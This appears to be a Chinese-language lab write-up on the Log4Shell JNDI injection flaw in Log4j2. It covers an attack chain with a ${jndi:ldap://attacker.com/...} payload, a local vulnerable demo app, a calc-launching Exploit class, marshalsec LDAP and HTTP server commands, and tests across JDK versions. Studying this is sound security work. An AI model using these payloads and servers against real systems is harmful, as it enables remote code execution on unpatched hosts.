## 核心概念
1. Lookup是什么：Log4j设计的一种变量替换机制，它允许在日志配置或日志内容中使用${变量名}格式，Log4j在处理时会自动替换为真实值如系统属性、环境变量等）
2. JndiLookup：专门处理前缀为jndi:的表达式。它的职责是调用Java的JNDI API去查找并返回远程对象
3. Interpolator（插值器）：所有Lookup的“调度中心”或“路由器”。它解析${...}里的前缀，决定把任务交给哪个具体的Lookup去执行
## 触发机制与攻击入口
1. 触发条件：只要Log4j2实际执行日志记录的字符串中包含了${jndi:...}，就会触发。是否触发与日志级别（Info、Error等）无关，只要该级别日志被启用且参数被记录
2. 攻击入口：任何会被后端Java程序记录到日志的客户端输入点。如：HTTP请求头（User-Agent、X-Forwarded-For、Referer）、GET/POST参数、JSON数据体、文件上传名等
## Log4Shell 攻击链
```
攻击者注入恶意payload`${jndi:ldap://attacker.com/Evil}`
|
触发漏洞，目标服务器调用 logger.info(userInput) 记录日志
|
Log4j2解析表达式，Interpolator发现jndi前缀，转交给JndiLookup处理
|
JndiLookup执行ctx.lookup("ldap://attacker.com/Evil");
|
攻击者服务器返回Reference执行恶意类的下载地址(例如：codebase: http://attacker.com/, classname: Exploit)
|
目标服务器的 JVM 根据 Reference 中的 codebase 地址，请求下载 Exploit.class
|
JVM加载并实例化恶意类
|
RCE
```
## 本地实现Log4Shelldemo
### 漏洞环境搭建
本地搭建一个简单的java程序作为攻击目标
1. 环境准备
    ```xml
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
    ``` 
2. 漏洞应用程序demo
    ```java
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
    import java.util.Scanner;

    public class Log4jTest {
        private static final Logger logger = LogManager.getLogger(Log4jTest.class);
        
        public static void main(String[] args) {
            // 开启远程加载（用于低版本JDK测试，高版本JDK需要配合反序列化利用）
            System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
            System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
            
            Scanner scanner = new Scanner(System.in);
            
            System.out.println("=== Log4j2 JNDI 注入测试环境 ===");
            System.out.println("当前JDK版本: " + System.getProperty("java.version"));
            System.out.println("输入 payload 进行测试（输入 'exit' 退出）\n");
            
            while (true) {
                System.out.print("Payload > ");
                String payload = scanner.nextLine();
                
                if ("exit".equalsIgnoreCase(payload)) {
                    System.out.println("退出测试");
                    break;
                }
                
                if (payload.isEmpty()) {
                    continue;
                }
                
                System.out.println("📝 即将记录日志: " + payload);
                System.out.println("🚀 触发漏洞...");
                
                try {
                    // 触发漏洞
                    logger.error("用户输入: {}", payload);
                    System.out.println("✅ 日志已记录，请观察恶意服务器是否有响应\n");
                } catch (Exception e) {
                    System.out.println("❌ 发生异常: " + e.getMessage());
                    e.printStackTrace();
                }
            }
            
            scanner.close();
        }
    }
    ``` 
3. 运行应用程序demo
    
### 漏洞利用准备
1. 准备恶意类
   ```java
     import java.lang.Runtime;
     import java.lang.Exception;
     public class Exploit {
         
             static {
                 try {
                     Runtime.getRuntime().exec("calc");
                 } catch (Exception e) {
                     e.printStackTrace();
                     // TODO: handle exception
                 }
             }
     }
   ``` 
   （注意：不要声明包名，使用默认包）
   编译成字节码文件`javac Exploit.class`
2. 启动恶意服务（使用marshalsec）
   1. 终端1 - 启动HTTP服务（提供恶意class文件）
      `python -m http.server 9999`
      
   2. 终端2 - 启动LDAP服务（提供“指路”服务）
      `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.162.1:9999/#Exploit" 1389` 
      
3. 输入payload
    
4. 触发漏洞
    
   
   
## 三种方式对比分析
### RMI在不同版本jdk下的表现
1. 开启RMI服务
   
   成功RCE
2. 接下来手动将目标应用程序demo中的trustURLCodebase设置为false，模拟jdk8u121以上版本 
    `System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "false");` 
    再进行测试发现还是弹出了计算器，http访问终端也有请求记录说明trustURLCodebase设为false不管用为什么呢？
    com.sun.jndi.rmi.object.trustURLCodebase 这个参数在JDK 8u121才引入。
    低版本JDK（如8u112）没有这个参数，默认行为就是允许远程加载（相当于true）。
    所以设置false无效，因为参数不存在
3. 换个思路：将jdk版本换成jdk21继续测试
   
   不再弹出计算器
    
   rmi正常指路，但http服务的终端没有访问记录
   再将trustURLCodebase手动设置为true测试,rmi正常指路，http服务的终端没有访问记录,而且日志记录中有错误记录
   猜测可能是jdk21中trustURLCodebase参数已经被删除永久禁止 Reference 远程加载导致的
4. 接着调整jdk版本为jdk8u144
    
   保持trustURLCodebase为默认值发现并没有弹计算器，符合预期
   手动设置trustURLCodebase为true
   发现弹出计算器，符合预期
    
### LDAP在不同jdk版本下的表现
1. 使用jdk8u144
   保持trustURLCodebase为默认值 
   
   成功弹窗，符合预期，因为jdk8u191之前还没有把 com.sun.jndi.ldap.object.trustURLCodebase 也默认设为 false
   
2. 使用jdk8u202
   保持trustURLCodebase为默认值,并没有弹窗
   手动设置trustURLCodebase为true
   
   成功弹窗，符合预期
3. 切换到更高版本的jdk21时LDAP+Reference就完全用不了了，一次就要使用另一种方法LDAP+Serialized

 